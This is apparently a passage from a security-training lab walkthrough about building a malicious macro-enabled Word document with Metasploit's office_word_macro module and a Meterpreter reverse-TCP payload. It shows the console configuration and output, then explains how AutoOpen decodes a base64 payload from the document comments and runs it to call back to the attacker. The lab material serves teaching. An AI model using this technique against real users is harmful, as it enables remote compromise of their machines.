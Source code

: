 ```
   ----            ---------------                                                                --------  -----------
   CUSTOMTEMPLATE  /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx  yes       A docx file that will be used as a template to build the exploit
   FILENAME        msf.docm                                                                       yes       The Office document macro file (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.111.254     yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows



View the full module info with the info, or info -d command.

msf6 exploit(multi/fileformat/office_word_macro) > 

sf6 exploit(multi/fileformat/office_word_macro) > exploit 

[*] Using template: /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /home/kali/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) > 

```

## The Created Macro-Enabled Document

We mentioned earlier how to create a macro within an MS Word document. You might be interested to see the content of the file created by `msfconsole`. In the screenshot below, we can see the different procedures and functions that make up this macro. **Note:** The AttackBox doesn’t have MS Office installed, so for this section you only have to read along.  

1. `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
2. `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
3. `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.
